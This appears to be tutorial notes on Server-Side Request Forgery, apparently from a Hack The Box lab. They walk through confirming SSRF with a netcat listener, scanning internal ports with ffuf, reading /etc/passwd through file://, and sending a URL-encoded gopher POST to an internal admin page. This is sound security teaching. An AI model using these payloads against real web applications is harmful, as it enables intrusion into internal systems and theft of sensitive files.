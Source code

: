 # Server-Side Request Forgery (SSRF)
Server-Side Request Forgery (SSRF) is a vulnerability where an attacker can manipulate a web application into sending unauthorized requests from the server. This vulnerability often occurs when an application makes HTTP requests to other servers based on user input. Successful exploitation of SSRF can enable an attacker to access internal systems, bypass firewalls, and retrieve sensitive information.
# Identifying SSRF
```
dataserver=http://dataserver.htb/availability.php&date=2024-01-01
```
As we can see, the request contains our chosen date and a URL in the parameter dateserver. This indicates that the web server fetches the availability information from a separate system determined by the URL passed in this POST parameter.
To confirm an SSRF vulnerability, let us supply a URL pointing to our system to the web application:
```
dataserver=http://<attackerip>:8000/ssrf&date=2024-01-01
```
```
nc -lvnp 8000
```
In a netcat listener, we can receive a connection, thus confirming SSRF:
To determine whether the HTTP response reflects the SSRF response to us, let us point the web application to itself by providing the URL http://127.0.0.1/index.php:
Since the response contains the web application's HTML code, the SSRF vulnerability is not blind, i.e., the response is displayed to us.
This enables us to conduct an internal port scan of the web server through the SSRF vulnerability. We can do this using a fuzzer like ffuf.
**we can fuzz all open ports by filtering out responses containing the error message we have identified earlier.**
```
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```
# Exploiting SSRF
## Accessing Restricted Endpoints
As we have seen, the web application fetches availability information from the URL dateserver.htb. However, when we add this domain to our hosts file and attempt to access it, we are unable to do so
However, we can access and enumerate the domain through the SSRF vulnerability. For instance, we can conduct a directory brute-force attack to enumerate additional endpoints using ffuf. To do so, let us first determine the web server's response when we access a non-existing page:
```
dataserver=http://dataserver.htb/invalid&date=2024-01-01
```
```
404 Not Found (Response)
```
As we can see, the web server responds with the default Apache 404 response. To also filter out any HTTP 403 responses, we will filter our results based on the string Server at dateserver.htb Port 80, which is contained in default Apache error pages. Since the web application runs PHP, we will specify the .php extension:
```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```
## Local File Inclusion (LFI)
As seen a few sections ago, we can manipulate the URL scheme to provoke further unexpected behavior. Since the URL scheme is part of the URL supplied to the web application, let us attempt to read local files from the file system using the file:// URL scheme. We can achieve this by supplying the URL `file:///etc/passwd`
```
dataserver=file://etc/passwd&date=2024-01-01
```
## The gopher Protocol
As we have seen previously, we can use SSRF to access restricted internal endpoints. However, we are restricted to GET requests as there is no way to send a POST request with the http:// URL scheme. For instance, let us consider a different version of the previous web application. Assuming we identified the internal endpoint /admin.php just like before, however, this time the response looks like this:
As we can see, the admin endpoint is protected by a login prompt. From the HTML form, we can deduce that we need to send a POST request to /admin.php containing the password in the adminpw POST parameter. However, there is no way to send this POST request using the http:// URL scheme.
Instead, we can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.
We need to URL-encode all special characters to construct a valid gopher URL from this. In particular, spaces (%20) and newlines (%0D%0A) must be URL-encoded. Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:
```
dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```
We can use the gopher protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. We can use Gopher to interact with this internal SMTP server as well. However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool Gopherus to generate gopher URLs for us. The following services are supported:
```
https://github.com/tarunkant/Gopherus
```
# Blind SSRF
In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called blind SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. Therefore, the impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.
## Identifying Blind SSRF
The sample web application behaves just like in the previous section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a netcat listener:
However, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request; instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:
## Exploiting Blind SSRF
Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with Something went wrong! for closed ports:
```
ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Something went wrong\!"
```
However, if a port is open and responds with a valid HTTP response, we get a different error message:
Depending on how the web application catches unexpected errors, we might be unable to identify running services that do not respond with valid HTTP responses. For instance, we are unable to identify the running MySQL service using this technique:
Furthermore, while we cannot read local files like before, we can use the same technique to identify existing files on the filesystem. That is because the error message is different for existing and non-existing files, just like it differs for open and closed ports: